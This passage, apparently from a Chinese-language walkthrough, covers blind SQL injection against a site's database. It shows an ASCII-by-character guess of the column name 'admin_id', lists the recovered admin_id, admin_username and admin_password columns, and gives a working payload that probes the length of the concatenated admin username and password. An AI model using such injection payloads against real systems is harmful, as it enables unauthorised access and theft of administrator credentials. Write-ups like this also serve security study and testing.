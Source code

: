 ![enter description here](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1615367399500.png)

> 1 > 97 --a
> 2 > 100 --d
> 3 > 109 --m
> 4 > 105 --i
> 5 > 110 --n
> 6 > 95 --_
> 7 > 105 --i
> 8 > 100 --d
> 第一个字段为：admin_id

接下来就是猜解剩余的 2 个字段，方法和上面一样

猜解出来的三个字段分别为：`admin_id，admin_username，admin_password`

对字段内容进行猜解，先判断字段内容长度
`t%' and (select length(concat(admin_username,0x5e,admin_password)) from admin)=38 %23`<br>
![enter description here](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1615368535869.png)
